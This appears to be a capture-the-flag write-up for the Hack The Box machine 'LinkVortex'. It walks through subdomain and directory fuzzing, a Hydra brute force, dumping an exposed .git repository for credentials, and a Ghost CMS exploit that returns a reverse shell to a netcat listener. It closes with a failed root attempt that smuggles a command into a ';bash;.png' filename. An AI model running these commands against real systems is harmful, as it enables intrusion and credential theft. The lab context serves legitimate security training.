










# LinkVortex - Easy

Target IP: **10.129.63.175**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.63.175 -v```

Output shows standard port 22 for ssh and port 80 for http, with the web server being Apache.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://linkvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's put ```linkvortex.htb``` in our ```/etc/hosts``` file and navigate to it.

We are greeted with this simple home page.



At the bottom of the page, there is a sign up button and tells us that the website is powered by Ghost.


Let's look at publicly disclosed vulnerabilities for Ghost. A search on Google tells us about CVE-2026-29053, an RCE vulnerability that affects Ghost version 0.7.2 through 6.19.0.

This could work, but we should make sure that we are on a vulnerable version. A quick look at the page source gives us the info that the website is powered by Ghost version 5.58, which it should be vulnerable to the CVE.



I found a [PoC](https://raw.githubusercontent.com/AC8999/CVE-2026-29053/refs/heads/main/exploit.py). Let's try this out and see if we get access.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ixu6venre1]─[~/CVE-2026-29053]
└──╼ [★]$ python3 exploit.py -i 10.10.15.194 -p 4444
[+] Payload: 10.10.15.194:4444
[+] Created: /home/htb-mp-3199654/CVE-2026-29053/malicious-theme.zip

1. nc -lvnp 4444
2. Upload theme, create page with slug 'rce'
3. Visit /rce/
```

Oops, it seems like the PoC is generating a payload to upload after we get initial access to a user that has some kind of editing permissions on the Ghost instance. We'll come back to this; First we need to get access to the Ghost instance itself.

It seems like on the search bar, we can search for authors. We come across the ```admin``` user. I wonder if we'll see something interesting if we capture the request to the ```admin``` author profile.



Nothing interesting came out of that, so let's look elsewhere. There was a sign up button at the bottom of the page, we can see if we can sign up for an account and access Ghost features.

Pressing on the sign up button at the bottom doesn't do anything, it seems like a static element.

Let's enumerate some extra directories and see if we get something more interesting: ```ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://linkvortex.htb/FUZZ -ic -fw 1 -t 10```

We don't get anything interesting from this either. We must be missing something.

Navigating to ```/robots.txt``` finally gets us some actionable results.

```
User-agent: *
Sitemap: http://linkvortex.htb/sitemap.xml
Disallow: /ghost/
Disallow: /p/
Disallow: /email/
Disallow: /r/
```

Let's navigate to each. We have a sitemap, ```/p/``` and ```/r/``` are inaccessible, and we find what we want on ```/ghost/```.

This seems to be the log in page for Ghost.



We notice something interesting that the login page does. First sending a dummy authentication request, we get back the error saying that there isn't a user with this email address.



However, with a reasonable guess for the email being ```admin@linkvortex.htb```, we get back the error that our password is wrong, confirming the existence of a user with the email ```admin@linkvortex.htb```.



Pressing on the "Forgot?" gets us nothing, and there really didn't seem like there was much to look at anymore.

As a desperate measure, I tried brute forcing the login form with Hydra.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ixu6venre1]─[~]
└──╼ [★]$ hydra -l 'admin@linkvortex.htb' -P /usr/share/wordlists/rockyou.txt linkvortex.htb http-post-form "/ghost/api/admin/session:username=^USER^&password=^PASS^:F=Your password is incorrect."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-09-14 16:00:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://linkvortex.htb:80/ghost/api/admin/session:username=^USER^&password=^PASS^:F=Your password is incorrect.
[80][http-post-form] host: linkvortex.htb   login: admin@linkvortex.htb   password: flower
[80][http-post-form] host: linkvortex.htb   login: admin@linkvortex.htb   password: playboy
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-09-14 16:00:58
```

There is no way a user has two passwords, so clearly something isn't working. This is probably because entering a wrong password doesn't send a response back from the server, which makes it impossible for Hydra to look at the failure message properly.

At this point, I knew I had missed something along the way. I started back from the beginning.

Although we enumerated for directories, we haven't looked for subdomains. Let's do just that: ```ffuf -w subdomains-top1million-20000.txt -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -fs 230 -ic -t 10```

This is what we were missing. Almost immediately, we find the ```dev``` subdomain.

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://linkvortex.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.linkvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 230
________________________________________________

dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 8ms]
:: Progress: [19964/19964] :: Job [1/1] :: 1351 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```

Let's add ```dev.linkvortex.htb``` to our ```/etc/hosts``` file and navigate to it.

This shows nothing much, just a website under construction.



We try enumerating for directories here: ```ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://dev.linkvortex.htb/FUZZ -ic -t 10```.

We don't get any results back, but we can try another wordlist.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ixu6venre1]─[/usr/share/wordlists/seclists/Discovery/Web-Content]
└──╼ [★]$ ffuf -w common.txt -u http://dev.linkvortex.htb/FUZZ -ic -t 10

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://dev.linkvortex.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 8ms]
.hta                    [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 7ms]
.htaccess               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 7ms]
.htpasswd               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 6ms]
.git/logs/              [Status: 200, Size: 868, Words: 59, Lines: 16, Duration: 18ms]
.git/config             [Status: 200, Size: 201, Words: 14, Lines: 9, Duration: 21ms]
.git/HEAD               [Status: 200, Size: 41, Words: 1, Lines: 2, Duration: 21ms]
.git/index              [Status: 200, Size: 707577, Words: 2171, Lines: 2172, Duration: 23ms]
cgi-bin/                [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 13ms]
index.html              [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 7ms]
server-status           [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 6ms]
:: Progress: [4750/4750] :: Job [1/1] :: 1515 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

There it is. There is a ```.git``` directory exposed to the public. We can dump this using ```git-dumper```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ixu6venre1]─[~/dump]
└──╼ [★]$ ls
apps  Dockerfile.ghost  ghost  LICENSE  nx.json  package.json  PRIVACY.md  README.md  SECURITY.md  yarn.lock
```

Let's dig around the repo. I found the credentials ```AzureDiamond:hunter2``` in one of the files. The password didn't work with ```admin@linkvortex.htb``` on the Ghost login form, but maybe we can log in with this through ssh?

Nope, didn't work.

Let's check the status of this github repo.

We see that there are changes that were made that are awaiting commits.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ixu6venre1]─[~/dump]
└──╼ [★]$ git status
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
	new file:   Dockerfile.ghost
	modified:   ghost/core/test/regression/api/admin/authentication.test.js
```

Let's check each and see if there is any valuable information.

The new Dockerfile is likely for the Ghost instance.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ixu6venre1]─[~/dump]
└──╼ [★]$ git diff --staged Dockerfile.ghost
diff --git a/Dockerfile.ghost b/Dockerfile.ghost
new file mode 100644
index 0000000..50864e0
--- /dev/null
+++ b/Dockerfile.ghost
@@ -0,0 +1,16 @@
+FROM ghost:5.58.0
+
+# Copy the config
+COPY config.production.json /var/lib/ghost/config.production.json
+
+# Prevent installing packages
+RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb
+
+# Wait for the db to be ready first
+COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
+COPY entry.sh /entry.sh
+RUN chmod +x /var/lib/ghost/wait-for-it.sh
+RUN chmod +x /entry.sh
+
+ENTRYPOINT ["/entry.sh"]
+CMD ["node", "current/index.js"]
```

The other file reveals a password being changed. This might be what we are looking for.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ixu6venre1]─[~/dump]
└──╼ [★]$ git diff --staged ./ghost/core/test/regression/api/admin/authentication.test.js
diff --git a/ghost/core/test/regression/api/admin/authentication.test.js b/ghost/core/test/regression/api/admin/authentication.test.js
index 2735588..e654b0e 100644
--- a/ghost/core/test/regression/api/admin/authentication.test.js
+++ b/ghost/core/test/regression/api/admin/authentication.test.js
@@ -53,7 +53,7 @@ describe('Authentication API', function () {
 
         it('complete setup', async function () {
             const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
 
             const requestMock = nock('https://api.github.com')
                 .get('/repos/tryghost/dawn/zipball')
```

Let's finally try logging in to Ghost with this new password. It works, and we finally get access to the admin panel.



Remember the vulnerability from way back? Let's try it out now. First, we will create a new page, accessible at ```/rce/```.



We can upload our malicious zip file in the themes section.



After starting up a netcat listener, activating the theme, and navigating to ```/rce/```, we get a connection back as the ```node``` user.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ixu6venre1]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.63.181 37730
whoami
node
```

We are placed in the ```/var/lib/ghost``` directory. It seems like we can't change directories.

There is an interesting bash script named ```wait-for-it.sh``` that we can't read, write, or execute that is owned by ```root```, but seems worth it to check out after user access for a potential privilege escalation vector.

Let's check out the files in our current directory. Inside ```config.production.json```, we see another set of credentials, ```bob@linkvortex.htb:fibber-talented-worth```.

```
"mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
```

Let's try logging in as the ```bob``` user through ssh.

And yes! We get access.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ixu6venre1]─[~/dump]
└──╼ [★]$ ssh bob@10.129.63.181
bob@10.129.63.181's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
bob@linkvortex:~$ whoami
bob
```

We can proceed to get the user flag from here.

## Root Flag

```sudo -l``` shows this.

```
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

We can run ```/opt/ghost/clean_symlink.sh``` with the argument being a ```.png``` file with any name.

Here is the script, let's try to understand what it is doing.

First, there is a hardcoded ```QUAR_DIR``` variable set to ```/var/quarantined```, and I'm thinking the ```LINK``` variable is set by whatever we input as the first argument.

Then, it checks if the ```LINK``` variable/first argument ends with ```.png```. If it doesn't the program execution finishes. The line ```if /usr/bin/sudo /usr/bin/test -L $LINK;``` checks if our ```LINK``` variable is a symlink. If it is, it sets two variables. ```LINK_NAME``` is the name of the file itself, stripped of the base path that we pass in through the ```LINK``` variable as the first argument. ```LINK_TARGET``` is set by running the ```readlink``` binary on the ```LINK``` variable, which is the target that the ```LINK``` variable is pointing to. If the target our symlink was pointing to is a part of ```/etc``` or ```/root```, it unlinks it. If not, it resumes original execution, intending to move the original file to the ```QUAR_DIR``` variable. Finally, I'm not sure what the ```$CHECK_CONTENT``` is doing, but I'm assuming that it tracks if there is actual content inside the file. If there exists content inside the file, it reads it with ```cat```.

What I'm looking at is the line ```/usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null```. Since the ```LINK_NAME``` variable is controlled by user input and is not sanitized, I'm wondering if we can create a malicious symlink with the file name intending to terminate the original ```cat``` command with a semicolon then spawn in a shell as ```root```.

```
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

Let's think about what we need in order to achieve this functionality. First, our file name has to end in ```.png```. Secondly, our file has to be a symlink. Third, the target that the symlink points to cannot be in ```/etc``` or ```/root```. Lastly, our file cannot be empty.

Let's try it, first creating a file with our malicious name: ```bob@linkvortex:~$ touch -- ";bash;.png"```.

Then, let's put some content in the file.

```
bob@linkvortex:~$ echo 'hi' >> ';bash;.png'
bob@linkvortex:~$ cat ';bash;.png'
hi
```

Then, lets link our file to a dummy folder.

```
bob@linkvortex:~$ ln -sf link ';bash;.png'
bob@linkvortex:~$ file ';bash;.png'
;bash;.png: symbolic link to link
```

Now, let's run the script with the file as the argument.

The file successfully passes through as a symlink and is moved to the ```/var/quarantined``` directory, but is not achieving our desired effect.

```
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh '/home/bob/;bash;.png'
Link found [ /home/bob/;bash;.png ] , moving it to quarantine
```

Since the execution stopped there, we can assume that it is failing the check: ```if $CHECK_CONTENT;```

It might be the case that ```$CHECK_CONTENT``` is set by checking the content of the file that the symlink points to, and since we were pointing our link to a directory, it was automatically saying that there wasn't any content.

Let's link it to a file, ensuring that we put content inside of the file.

```
bob@linkvortex:~$ touch hi.txt && echo "hi" >> hi.txt
bob@linkvortex:~$ cat hi.txt 
hi
bob@linkvortex:~$ ln -sf hi.txt ';bash;.png'
```

Let's try again. Well, that didn't work. I think we need to pivot, let's scrap this idea for now.

